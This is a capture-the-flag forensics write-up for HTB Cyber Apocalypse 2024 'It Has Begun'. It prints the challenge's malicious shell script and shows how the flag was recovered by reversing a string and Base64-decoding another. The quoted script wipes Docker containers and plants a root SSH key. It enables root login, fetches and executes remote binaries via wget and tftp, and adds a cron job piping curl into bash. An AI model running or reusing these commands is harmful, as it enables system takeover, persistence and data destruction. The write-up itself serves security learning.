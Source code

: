 ```yaml
---
title: HTB Cyber Apocalypse - It Has Begun
date: Sat Mar 14 10:38:23 PM +04 2024
categories: [Writeup]
tags: [ctf,htb,htb2024,htb_cyber_apocalypse_2024,forensics,misc]
---
```


## Desciption

POINTS: 425<br>
DIFFICULTY: very easy

The Fray is upon us, and the very first challenge has been released! Are you ready factions!? Considering this is just the beginning, if you cannot musted the teamwork needed this early, then your doom is likely inevitable.

## Solution

{::options parse_block_html="true" /}

<details>
<summary markdown="span">script.sh</summary>

```bash
#!/bin/sh

if [ "$HOSTNAME" != "KORP-STATION-013" ]; then
    exit
fi

if [ "$EUID" -ne 0 ]; then
    exit
fi

docker kill $(docker ps -q)
docker rm $(docker ps -a -q)

echo "ssh-rsa AAAAB4NzaC1yc2EAAAADAQABAAABAQCl0kIN33IJISIufmqpqg54D7s4J0L7XV2kep0rNzgY1S1IdE8HDAf7z1ipBVuGTygGsq+x4yVnxveGshVP48YmicQHJMCIljmn6Po0RMC48qihm/9ytoEYtkKkeiTR02c6DyIcDnX3QdlSmEqPqSNRQ/XDgM7qIB/VpYtAhK/7DoE8pqdoFNBU5+JlqeWYpsMO+qkHugKA5U22wEGs8xG2XyyDtrBcw10xz+M7U8Vpt0tEadeV973tXNNNpUgYGIFEsrDEAjbMkEsUw+iQmXg37EusEFjCVjBySGH3F+EQtwin3YmxbB9HRMzOIzNnXwCFaYU5JjTNnzylUBp/XB6B user@tS_u0y_ll1w{BTH" >> /root/.ssh/authorized_keys
echo "nameserver 8.8.8.8" >> /etc/resolv.conf
echo "PermitRootLogin yes" >> /etc/ssh/sshd_config
echo "128.90.59.19 legions.korp.htb" >> /etc/hosts

for filename in /proc/*; do
    ex=$(ls -latrh $filename 2> /dev/null|grep exe)
    if echo $ex |grep -q "/var/lib/postgresql/data/postgres\|atlas.x86\|dotsh\|/tmp/systemd-private-\|bin/sysinit\|.bin/xorg\|nine.x86\|data/pg_mem\|/var/lib/postgresql/data/.*/memory\|/var/tmp/.bin/systemd\|balder\|sys/systemd\|rtw88_pcied\|.bin/x\|httpd_watchdog\|/var/Sofia\|3caec218-ce42-42da-8f58-970b22d131e9\|/tmp/watchdog\|cpu_hu\|/tmp/Manager\|/tmp/manh\|/tmp/agettyd\|/var/tmp/java\|/var/lib/postgresql/data/pоstmaster\|/memfd\|/var/lib/postgresql/data/pgdata/pоstmaster\|/tmp/.metabase/metabasew"; then
        result=$(echo "$filename" | sed "s/\/proc\///")
        kill -9 $result
        echo found $filename $result
    fi
done

ARCH=$(uname -m)
array=("x86" "x86_64" "mips" "aarch64" "arm")

if [[ $(echo ${array[@]} | grep -o "$ARCH" | wc -w) -eq 0 ]]; then
  exit
fi


cd /tmp || cd /var/ || cd /mnt || cd /root || cd etc/init.d  || cd /; wget http://legions.korp.htb/0xda4.0xda4.$ARCH; chmod 777 0xda4.0xda4.$ARCH; ./0xda4.0xda4.$ARCH; 
cd /tmp || cd /var/ || cd /mnt || cd /root || cd etc/init.d  || cd /; tftp legions.korp.htb -c get 0xda4.0xda4.$ARCH; cat 0xda4.0xda4.$ARCH > DVRHelper; chmod +x *; ./DVRHelper $ARCH; 
cd /tmp || cd /var/ || cd /mnt || cd /root || cd etc/init.d  || cd /; busybox wget http://legions.korp.htb/0xda4.0xda4.$ARCH; chmod 777;./0xda4.0xda4.$ARCH;
echo "*/5 * * * * root curl -s http://legions.korp.htb/0xda4.0xda4.$ARCH | bash -c 'NG5kX3kwdVJfR3IwdU5kISF9' " >> /etc/crontab
```

</details>

{::options parse_block_html="false" /}

The flag is hidden in given file:

```bash
echo "ssh-rsa AAAAB.../XB6B user@tS_u0y_ll1w{BTH" >> /root/.ssh/authorized_keys
```

You can notice HTB flag written in reverse: 

```bash
└─$ echo 'tS_u0y_ll1w{BTH' | rev
HTB{w1ll_y0u_St
```

There's also Base64 encoded string on last line:

```bash
bash -c 'NG5kX3kwdVJfR3IwdU5kISF9' " >> /etc/crontab
```

```bash
└─$ echo 'NG5kX3kwdVJfR3IwdU5kISF9' | base64 -d
4nd_y0uR_Gr0uNd!!}     
```

> Flag: HTB{w1ll_y0u_St4nd_y0uR_Gr0uNd!!}
{: .prompt-tip }
